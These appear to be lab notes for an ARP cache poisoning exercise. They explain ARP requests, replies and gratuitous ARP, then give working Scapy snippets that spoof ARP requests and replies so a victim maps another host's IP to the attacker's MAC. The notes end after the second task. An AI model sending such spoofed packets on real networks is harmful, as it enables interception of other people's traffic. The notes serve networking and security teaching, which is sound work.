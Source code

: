 ## Lab 3

**I. Core ARP Concepts**

*   **ARP (Address Resolution Protocol):** Maps IP addresses to MAC addresses on a local network.
*   **ARP Request:** Broadcast. "Who has IP `target_IP`? Tell `sender_IP`."
    *   Ethernet Dst: `ff:ff:ff:ff:ff:ff`
    *   ARP Opcode: `1` (request)
    *   ARP `psrc`: `sender_IP`, `hwsrc`: `sender_MAC`
    *   ARP `pdst`: `target_IP`, `hwdst`: `00:00:00:00:00:00` (or `ff:ff:ff:ff:ff:ff` for Gratuitous)
*   **ARP Reply:** Unicast (usually). "`target_IP` is at `target_MAC`."
    *   Ethernet Dst: `requester_MAC`
    *   ARP Opcode: `2` (reply)
    *   ARP `psrc`: `target_IP`, `hwsrc`: `target_MAC` (this is what the victim caches)
    *   ARP `pdst`: `sender_IP`, `hwdst`: `sender_MAC`
*   **ARP Cache:** Temporary storage on hosts for IP-MAC mappings.
    *   Check: `arp -n` (Linux)
    *   Delete entry: `arp -d <IP_ADDRESS>`
*   **Gratuitous ARP:** A host sends an ARP packet (often a request, sometimes a reply) about its *own* IP address, not in response to a request.
    *   **Purpose:** Update ARP caches of other hosts (e.g., after IP change), detect IP conflicts.
    *   **For Poisoning (Task 1.C - Gratuitous ARP Request):**
        *   ARP `psrc` (Sender IP) = ARP `pdst` (Target IP) = IP being claimed.
        *   ARP `hwsrc` (Sender MAC) = Attacker's MAC.
        *   Ethernet Dst = `ff:ff:ff:ff:ff:ff` (Broadcast).
        *   ARP `hwdst` = `ff:ff:ff:ff:ff:ff` (Broadcast in lab spec).

**II. ARP Poisoning Techniques (Scapy Examples)**

*   **Victim:** Host A (`IP_A`, `MAC_A`)
*   **Target of Impersonation:** Host B (`IP_B`, `MAC_B`)
*   **Attacker:** Host M (`IP_M`, `MAC_M`)

1.  **Task 1.A: ARP Request Attack** (Poison A's cache: `IP_B` is at `MAC_M`)
    ```python
    # On Host M, send to Host A
    # Tell A that IP_B (psrc) is at MAC_M (hwsrc), by asking A (pdst) about itself
    arp_pkt = Ether(src=MAC_M, dst=MAC_A) / \
              ARP(op=1, # Request
                  hwsrc=MAC_M, psrc=IP_B,  # Spoofed Sender (M claims to be B)
                  hwdst="00:00:00:00:00:00", pdst=IP_A) # Actual Target of ARP query
    sendp(arp_pkt, iface="eth0", verbose=False)
    ```
    *Key Idea:* A receives an ARP request seemingly from `IP_B` (but with `MAC_M`). Some OSes might cache `IP_B -> MAC_M` from the `psrc`/`hwsrc` of the request.

2.  **Task 1.B: ARP Reply Attack** (Poison A's cache: `IP_B` is at `MAC_M`)
    ```python
    # On Host M, send to Host A
    # Tell A (pdst, hwdst) that IP_B (psrc) is at MAC_M (hwsrc)
    arp_pkt = Ether(src=MAC_M, dst=MAC_A) / \
              ARP(op=2, # Reply
                  hwsrc=MAC_M, psrc=IP_B,    # The poisoned mapping
                  hwdst=MAC_A, pdst=IP_A)    # Destination of this reply
    sendp(arp_pkt, iface="eth0", verbose=False)
    ```
    *Key Idea:* Send an unsolicited ARP reply to A.
